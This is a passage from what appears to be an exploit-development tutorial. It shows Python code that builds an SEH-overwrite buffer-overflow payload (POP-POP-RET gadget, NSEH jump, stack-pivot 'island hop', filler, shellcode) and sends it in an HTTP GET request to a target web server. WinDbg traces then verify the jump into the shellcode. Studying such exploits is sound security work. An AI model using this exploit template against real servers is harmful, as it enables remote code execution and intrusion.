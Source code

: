 ```python
exp += little_endian(0x101576c0)  # (PPR) pop eax; pop ebx; ret
exp += b'\x90\x90'                # (NSEH) offset for the 'eb 06' part of the jmp instruction
exp += b'\x66\x81\xc4\x52\x0f'    # (Island Hop) add sp, 0xf50
exp += b'\xff\xe4'                # (Island Hop) jmp esp

filler = b'A' * (2499 - 4)
nop    = b'\x90' * (size - len(filler + exp + shellcode))

buf = filler + exp + shellcode + nop
print(f'buf({len(buf)}): filler({len(filler)}) -> exp({len(exp)}) -> shellcode({len(shellcode)}) -> nop({len(nop)})')

request  = b'GET /' + buf + b'HTTP/1.1' + b'\r\n'
request += b'Host: ' + host.encode() + b'\r\n'
request += b'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.8.0' + b'\r\n'
request += b'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' + b'\r\n'
request += b'Accept-Language: en-US,en;q=0.5' + b'\r\n'
request += b'Accept-Encoding: gzip, deflate' + b'\r\n'
request += b'Connection: keep-alive' + b'\r\n\r\n'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
s.send(request)
s.close()
```
{% endcode %}

Break on the alignment jump and make sure the target buffer is the shellcode stub:

```
0:012> t
eax=771f6f82 ebx=01d6ba00 ecx=101576c0 edx=771f6fa0 esi=00000000 edi=00000000
eip=01d6ff5e esp=01d6b904 ebp=01d6b918 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
01d6ff5e 6681c4520f      add     sp,0F52h
0:012> t
eax=771f6f82 ebx=01d6ba00 ecx=101576c0 edx=771f6fa0 esi=00000000 edi=00000000
eip=01d6ff63 esp=01d6c856 ebp=01d6b918 iopl=0         nv up ei ng nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000286
01d6ff63 ffe4            jmp     esp {01d6c856}
0:012> dd @esp L4
01d3c856  d34dc0d3 43434343 43434343 43434343
```

However, if the island hop is too close to the shellcode on stack, we may see the hop itself when aligning the stack which is unwanted:

```
0:012> u @esp L5
01d6c856 6681c4520f      add     sp,0F52h
01d6c85b ffe4            jmp     esp
01d6c85d d3c0            rol     eax,cl
01d6c85f 4d              dec     ebp
```
